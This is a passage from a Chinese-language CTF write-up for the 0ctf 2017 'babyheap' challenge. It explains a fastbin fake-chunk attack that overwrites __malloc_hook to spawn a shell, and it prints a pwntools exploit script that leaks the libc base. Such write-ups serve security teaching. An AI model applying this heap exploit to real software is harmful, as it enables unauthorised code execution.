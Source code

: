 可以看到，在堆管理表中，第6块内容就是伪造的堆块地址，通过计算可知，伪造堆块地址距离__malloc_hook的偏移为0x13，那么此时通过编辑chunk6，就可以任意修改__malloc_hook的地址。
```
payload = p8(0) * 3 + p64(0) * 2 + p64(execve_shell)
fill(6, payload)
```

最后，再次调用malloc函数，即可执行execve("/bin/sh",0,0)命令，获取系统权限。

最终exp如下：
```
from pwn import *

p = process("./babyheap_0ctf_2017")

def allocate(size):
    p.sendlineafter("Command: ", "1")
    p.sendlineafter("Size: ", str(size))

def fill(idx, payload):
    p.sendlineafter("Command: ", "2")
    p.sendlineafter("Index: ", str(idx))
    p.sendlineafter("Size: ", str(len(payload)))
    p.sendlineafter("Content: ", payload)
    
def free(idx):
    p.sendlineafter("Command: ", "3")
    p.sendlineafter("Index: ", str(idx))

def dump(idx, len):
    p.sendlineafter("Command: ", "4")
    p.sendlineafter("Index: ", str(idx))
    p.recvuntil("Content: \n")
    return p.recv(len)

allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)
free(1)
free(2)

payload = p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21) + p8(0x80)
fill(0, payload)

payload = p64(0) * 3 + p64(0x21)
fill(3, payload)

allocate(0x10)
allocate(0x10)

payload = p64(0) * 3 + p64(0x91)
fill(3, payload)
allocate(0x80)
free(4)

libc_base = u64(dump(2, 8)) - 0x3c4b78
fake_heap = libc_base + 0x3c4aed
execve_shell = libc_base + 0x4526a

print (hex(libc_base))
print (hex(fake_heap))
print (hex(execve_shell))

```